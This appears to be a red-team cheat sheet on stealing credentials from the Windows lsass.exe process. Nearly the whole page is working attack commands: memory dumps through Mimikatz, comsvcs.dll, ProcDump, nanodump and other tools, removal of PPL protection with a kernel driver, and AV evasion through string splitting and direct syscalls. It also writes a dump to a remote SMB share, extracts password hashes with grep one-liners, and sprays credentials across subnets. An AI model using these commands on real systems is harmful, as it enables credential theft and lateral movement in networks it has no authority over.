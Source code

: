 ```yaml
---
description: Local Security Authority Subsystem Service
---
```


# lsass.exe




## Enumeration

Check if lsass.exe is ran as a protected process (PPL):

```
PS > Get-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\Lsa -Name "RunAsPPL"
```




## Reusing Open Handles



### Pypykatz

* [https://skelsec.medium.com/duping-av-with-handles-537ef985eb03](https://skelsec.medium.com/duping-av-with-handles-537ef985eb03)
* [https://github.com/skelsec/pypykatz/releases/latest](https://github.com/skelsec/pypykatz/releases/latest)

```
Cmd > .\pypykatz.exe live lsa --method handledup
```



### SharpHandler

* [https://github.com/jfmaes/SharpHandler](https://github.com/jfmaes/SharpHandler)
* [https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-SharpHandler.ps1](https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-SharpHandler.ps1)

Scan if there are dupeable handles to use:

```
PS > Invoke-SharpHandler -C "-s"
```

Write a gzip-compressed minidump to specified location:

```
PS > Invoke-SharpHandler -C "-w -c -l=C:\Windows\Temp\pony.dat"
```

Dump and parse with SharpKatz's `logonpasswords`:

```
PS > Invoke-SharpHandler -C "-d"
```



### HandleKatz

- [https://github.com/codewhitesec/HandleKatz](https://github.com/codewhitesec/HandleKatz)

```
$ x86_64-w64-mingw32-gcc -o loader.exe loader.cpp -lcrypt32
Cmd > .\loader.exe --pid:852 --outfile:C:\Windows\Temp\dump.obfuscated
```




## Silent Process Exit

* [https://www.deepinstinct.com/2021/02/16/lsass-memory-dumps-are-stealthier-than-ever-before-part-2/](https://www.deepinstinct.com/2021/02/16/lsass-memory-dumps-are-stealthier-than-ever-before-part-2/)
* [https://github.com/deepinstinct/LsassSilentProcessExit](https://github.com/deepinstinct/LsassSilentProcessExit)
* [https://github.com/lengjibo/RedTeamTools/tree/master/windows/LsassSilentProcessExit](https://github.com/lengjibo/RedTeamTools/tree/master/windows/LsassSilentProcessExit)
* [https://github.com/CompassSecurity/PowerLsassSilentProcessExit](https://github.com/CompassSecurity/PowerLsassSilentProcessExit)




## Remove PPL Protection

- [https://github.com/itm4n/PPLdump](https://github.com/itm4n/PPLdump)
- [https://github.com/RedCursorSecurityConsulting/PPLKiller](https://github.com/RedCursorSecurityConsulting/PPLKiller)

Using Mimikatz driver:

```
PS > cmd /c sc create mimidrv binPath= C:\Windows\Tasks\mimidrv.sys type= kernel start= demand
PS > cmd /c sc start mimidrv
PS > Invoke-Mimikatz -Command '"!processprotect /process:lsass.exe /remove" "exit"'
```




## Tools



### comsvcs.dll

* [https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dump-credentials-from-lsass-process-without-mimikatz#comsvcs-dll](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dump-credentials-from-lsass-process-without-mimikatz#comsvcs-dll)
* [https://github.com/Hackndo/lsassy/blob/master/lsassy/dumpmethod/comsvcs.py](https://github.com/Hackndo/lsassy/blob/master/lsassy/dumpmethod/comsvcs.py)
* [https://gist.github.com/JohnLaTwC/3e7dd4cd8520467df179e93fb44a434e](https://gist.github.com/JohnLaTwC/3e7dd4cd8520467df179e93fb44a434e)
* [https://sp00ks-git.github.io/posts/LSASS-Encrypted-Dump/](https://sp00ks-git.github.io/posts/LSASS-Encrypted-Dump/)

```
PS > $proc = 'ls'+'Ass'
PS > Get-Process $proc
PS > rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump <PROCESS_PID> C:\Windows\System32\spool\drivers\color\pony.dat full
```

Not touching the disk (using an SMB share):

```
PS > net use z: \\10.10.13.37\share
PS > rundll32.exe c:\Windows\System32\comsvcs.dll, MiniDump (Get-Process ('ls'+'Ass')).id z:\pony.dat full
```

One-liner:

```
Cmd > %COMSPEC% /Q /c echo powershell.exe -NoP -C "%WINDIR%\System32\rundll32.exe %WINDIR%\System32\comsvcs.dll, MiniDump (Get-Process lsass).Id %WINDIR%\Temp\pony.arj full;Wait-Process -Id (Get-Process rundll32).Id" 2^>^&1 > temp.bat & %COMSPEC% /Q /c temp.bat & del temp.bat
```



### ProcDump

* [https://docs.microsoft.com/en-us/sysinternals/downloads/procdump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump)
* [https://download.sysinternals.com/files/Procdump.zip](https://download.sysinternals.com/files/Procdump.zip)

Dump and parse:

```
PS > .\procdump64.exe -accepteula -64 -ma lsass.exe lsass.dmp
$ pypykatz lsa minidump lsass.dmp > lsass-pypykatz.minidump
Or
Cmd > .\mimikatz.exe "sekurlsa::minidump out.txt" "exit"
```

Grep for secrets:

```
 # Mimikatz
$ grep -a '* Username : ' out.txt -A2 | grep -a -e Username -e Password -e NTLM | grep -a -v null | xclip -i -sel c
 # Pypykatz
$ grep -a -P '\tusername ' out.txt -A2 | grep -a -e username -e password | grep -a -v None | xclip -i -sel c
$ grep -a -P 'Username: ' out.txt -A4 | grep -a -e Username -e Domain -e NT | grep -a -v None | xclip -i -sel c
```



### Mimikatz

In case of Windows 10 version 1803-1809 use [Mimikatz v2.1.1](https://github.com/gentilkiwi/mimikatz/files/4167347/mimikatz_trunk.zip), see [Key import error](https://github.com/gentilkiwi/mimikatz/issues/248):

```
Cmd > .\mimikatz.exe "privilege::debug" "token::elevate" "log out.txt" "sekurlsa::logonpasswords full" "exit"
```


#### kiwi

```
meterpreter > getsystem
meterpreter > load kiwi
meterpreter > creds_msv
meterpreter > creds_all
meterpreter > lsa_dump_secrets
meterpreter > kiwi_cmd '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords full" "exit"'
```



### spraykatz

* [https://github.com/aas-n/spraykatz](https://github.com/aas-n/spraykatz)

```
$ python3 spraykatz.py -u snovvcrash -p 'Passw0rd!' -t 10.10.13.37,10.10.13.38,10.10.13.39
```



### Dumpert

* [https://outflank.nl/blog/2019/06/19/red-team-tactics-combining-direct-system-calls-and-srdi-to-bypass-av-edr/](https://outflank.nl/blog/2019/06/19/red-team-tactics-combining-direct-system-calls-and-srdi-to-bypass-av-edr/)
* [https://github.com/outflanknl/Dumpert](https://github.com/outflanknl/Dumpert)

Dump lsass.exe using direct syscalls and removing user-land API hooks:

```
Cmd > rundll32.exe .\Outflank-Dumpert-DLL.dll,Dump
```

Using [sRDI](https://www.netspi.com/blog/technical/adversary-simulation/srdi-shellcode-reflective-dll-injection/) (**s**hellcode **R**eflective **D**LL **I**njection) technique:

1. Compile [*Outflank-Dumpert-DLL.dll*](https://github.com/outflanknl/Dumpert/tree/master/Dumpert-DLL).
2. Convert it to position independent shellcode with [*ConvertToShellcode.py*](https://github.com/monoxgas/sRDI/blob/master/Python/ConvertToShellcode.py): `python3 ConvertToShellcode.py Outflank-Dumpert-DLL.dll`.
3. Use a shellcode loader of your choice to dump LSASS.



### lsassy

* [https://github.com/Hackndo/lsassy](https://github.com/Hackndo/lsassy)
* [https://github.com/byt3bl33d3r/CrackMapExec/blob/master/cme/modules/lsassy.py](https://github.com/byt3bl33d3r/CrackMapExec/blob/master/cme/modules/lsassy.py)
* [https://en.hackndo.com/remote-lsass-dump-passwords/](https://en.hackndo.com/remote-lsass-dump-passwords/)

```
$ lsassy 10.10.13.0/24 -d megacorp.local -u snovvcrash -p 'Passw0rd!'
$ cme smb 10.10.13.0/24 -u snovvcrash -p 'Passw0rd!' -M lsassy
```



### nanodump

- [https://www.coresecurity.com/core-labs/articles/nanodump-red-team-approach-minidumps](https://www.coresecurity.com/core-labs/articles/nanodump-red-team-approach-minidumps)
- [https://github.com/helpsystems/nanodump](https://github.com/helpsystems/nanodump)

```
Cmd > .\nanodump.x64.exe -w C:\Windows\Temp\lsass.dmp
```
